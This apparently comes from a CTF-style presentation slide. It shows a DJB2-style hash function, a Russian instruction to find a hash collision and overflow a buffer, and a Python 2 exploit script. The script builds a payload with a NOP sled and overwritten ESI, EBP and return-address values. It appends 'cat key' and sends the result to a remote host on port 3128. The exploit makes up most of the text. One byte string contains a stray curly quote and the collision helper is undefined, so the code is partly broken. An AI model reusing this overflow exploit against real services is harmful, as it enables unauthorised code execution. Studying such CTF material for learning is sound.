

Forgetu
def make_hash(data, debug=0):
    hash = 0x1505
    for c in data:
        hash += (ord(c) + (hash << 5))
        hash &= 0xffffffff
    return hash
Найти коллизию с 0xFC1BE02A и переполнить буфер:

if __name__ == "__main__":
   payload = open('payload_new','r').read()
   ret = b'\xf4\xdb\x04\x08'
   ebp = b'\xEB\xEB\xEB\xEB'
   esi = b'\xbc\xeb\xbf\xbf'
   buf = b'\x66\x57\x47\x52\x58\x57\x0A‘ + collision(0x94) + b'\x0A'+\
            payload + b'\x90'*(0x88-0x24) + esi + ebp + ret +b'\x0a' + b' ' +\
            b'\x0a' + b'cat key' + b'\x0a'
   ip = sys.argv[1]
   sock = create_connection((ip,3128))
   sock.send(buf)
   data = sock.recv(1024)
   print data